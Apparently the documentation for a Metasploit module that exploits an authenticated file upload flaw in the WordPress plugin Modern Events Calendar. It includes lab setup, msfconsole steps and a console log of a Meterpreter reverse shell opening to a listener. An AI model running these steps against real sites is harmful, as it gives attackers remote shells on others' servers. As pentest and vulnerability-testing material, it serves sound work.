 ## Vulnerable Application

### Description

This module allows an attacker with a privileged Wordpress account to launch a reverse shell
due to an arbitrary file upload vulnerability in Wordpress plugin Modern Events Calendar < 5.16.5.
This is due to an incorrect check of the uploaded file extension.
Indeed, by using `text/csv` content-type in a request, it is possible to upload a .php payload as is is not forbidden by the plugin.
Finally, the uploaded payload can be triggered by a call to `/wp-content/uploads/<random_payload_name>.php`

### Installation

You can easily install Wordpress with Docker as explained [there]
(https://upcloud.com/community/tutorials/wordpress-with-docker/).
Then, you can download a vulnerable version of Modern Events Calendar plugin from [there]
(https://downloads.wordpress.org/plugin/modern-events-calendar-lite.5.16.2.zip)
and install it on your Wordpress website through the plugin page : Add New > Upload Plugin > Browse...

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/multi/http/wp_plugin_modern_events_calendar_rce`
3. `set USERNAME <admin_username>`
4. `set PASSWORD <admin_password>`
5. `set TARGETURI <base_path_wordpress>` if the base path of the Wordpress website is different from `/`
6. `check` to check if the targeted Wordpress website is vulnerable
7. `run` the module to exploit the vulnerability and start a reverse shell

## Options

### USERNAME

Set the USERNAME of your admin account.

### PASSWORD

Set the PASSWORD of your admin account.

## Scenarios

This module was successfully tested on Debian 10 with Wordpress 5.7.2 and Modern Events Calendar 5.16.2.
See the following output :

```
msf6 > use wp_plugin_modern_events_calendar_rce
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set rhost 192.168.1.12
rhost => 192.168.1.12
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set username admin
username => admin
msf6 exploit(wp_plugin_modern_events_calendar_rce) > set password my_best_password
password => my_best_password
msf6 exploit(wp_plugin_modern_events_calendar_rce) > run

[*] Started reverse TCP handler on 192.168.1.35:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Uploading file 'wkook.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 192.168.1.12
[*] Meterpreter session 10 opened (192.168.1.35:4444 -> 192.168.1.12:34400) at 2021-07-12 14:20:43 +0200

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo 
Computer    : 66dd7f594749
OS          : Linux 66dd7f594749 4.19.0-17-amd64 #1 SMP Debian 4.19.194-2 (2021-06-21) x86_64
Meterpreter : php/linux
meterpreter > 
```
